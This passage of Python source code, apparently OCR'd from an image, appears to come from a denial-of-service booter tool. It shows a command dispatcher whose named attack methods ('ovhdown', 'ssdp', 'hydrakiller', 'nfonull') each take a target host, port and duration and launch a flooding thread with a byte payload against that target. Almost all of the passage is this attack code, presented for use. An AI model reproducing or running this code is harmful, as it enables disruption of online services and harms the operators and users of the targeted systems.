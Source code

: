 					socket.gethostbyname(host)
					payload = b"\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovhdown":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ssdp":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "hydrakiller":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nfonull":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")